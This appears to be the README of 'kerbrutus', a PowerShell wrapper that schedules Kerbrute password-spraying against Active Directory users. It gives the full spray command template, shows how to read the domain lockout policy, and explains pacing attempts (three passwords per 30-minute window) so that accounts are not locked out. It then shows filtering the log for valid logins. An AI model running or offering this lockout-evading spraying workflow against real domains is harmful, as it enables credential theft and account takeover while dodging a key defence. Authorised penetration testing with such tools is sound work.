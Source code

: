 # Usage

```PowerShell
.\kerbrutus.ps1 -ExecutionCount 3 -TimeWindowMinutes 30 -CommandTemplate '..\kerbrute.exe passwordspray -d domain.local .\users.txt -v "<pass>"' -PasswordsFile .\passwords.txt -OutputFile results.log
```

In `-CommandTemplate` the `<pass>` is a place holder value that is populated by each password on the specified password list file (`-PasswordsFile <pass_file>`).

The value specified in `-OutputFile` will have all results appended to it.

## Why?

So you can continuously and safely run [Kerbrute](https://github.com/ropnop/kerbrute) (namely the `passwordspray` function) in alignment with the password policy of the AD environment you are using.

E.g.
```PowerShell
Get-ADDefaultDomainPasswordPolicy
```
```
<SNIP>
LockoutDuration             : 00:30:00
LockoutObservationWindow    : 00:30:00
LockoutThreshold            : 5
<SNIP>
```

So, as the `LockoutObservationWindow` is `30` and the `LockoutThreshold` is `5`, you might choose to safely spray `3` passwords (for ever domain user) within a `30` minute window (and then rinse and repeat).

So you'd set the follow as such:
```PowerShell
-ExecutionCount 3 -TimeWindowMinutes 30
```

*NB*: Kerbrutus counts `30` minutes from when the last command finishes executing and adds 1 minute to create a buffer.

Then you can just `grep` all `VALID LOGIN`s from the log file:
```PowerShell
Select-String -Path "results.log" -Pattern "VALID LOGIN"
```
